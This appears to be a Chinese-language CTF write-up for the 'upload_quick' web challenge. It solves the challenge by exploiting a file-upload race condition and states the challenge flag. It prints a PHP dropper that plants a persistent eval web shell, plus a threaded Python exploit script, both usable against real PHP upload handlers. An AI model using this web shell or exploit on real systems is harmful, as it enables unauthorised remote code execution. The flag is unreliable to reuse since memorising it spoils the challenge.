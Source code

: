 - **题目名称：** upload_quick
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** fru1ts
- **考点：** 

1. 文件上传
2. 条件竞争

- **描述：** newnew的逻辑不太对，只要你够快
- **flag：** `XSCTF{fi1e_Upl00000000ad_int1r1s7ing_491346}`
- **Writeup：** 

1.获取页面源码（3种方法）：

- `view-source:url`
- 打开开发者工具（不要用快捷键，已经锁死）
- burpsuit

在`EasePack.min.js`找到提示：`you find me, good luck for you! Now go to Upl00000000ad.php`

2.访问`/Upl00000000ad.php`进行文件上传。通过尝试发现文件成功传上去，然后非图片的后缀又被改成`.jpg`，可以通过条件竞争来上传`websehll`。

思路：使用两个线程，一个线程上传php文件，另一个线程访问传上去的php使之执行。

为了留下稳定的后门，在上传的php里面写一个创建后门文件

```php
#a.php
<?php
fputs(fopen("shell.php","w"),'<?php @eval($_POST["cmd"]);?>');
?>
```

exp

```python
import requests
import threading

url = ''


def POST1():
    for i in range(1000):
        filename = 'a.php'
        file = {"upload_file": open(filename, "rb")}
        r = requests.post(url=url + 'Upl00000000ad.php', data={'submit': 'True'}, files=file)

        print(r.text)


def POST2():
    for i in range(1000):
        r = requests.get(url=url + 'uploads/a.php')
        if r.status_code == 200:
            print('ok')
        print(r)


threading.Thread(target=POST1).start()
threading.Thread(target=POST2).start()

```

蚁剑连接`url/uploads/shell.php`

